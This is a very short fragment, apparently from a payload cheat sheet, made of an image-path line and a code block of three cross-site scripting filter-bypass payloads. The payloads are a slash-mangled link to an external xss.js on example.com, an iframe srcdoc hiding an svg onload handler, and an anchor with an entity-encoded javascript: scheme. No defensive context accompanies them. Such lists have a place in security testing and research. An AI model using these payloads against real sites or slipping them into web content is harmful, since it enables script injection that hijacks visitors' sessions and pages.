 ```

<a href=/\///\\/example.com/xss.js>URL bypass</a>

<iframe srcdoc="&lt;svg/onload=alert()&gt;">

<a/href=javascript&colon;alert()>click

```









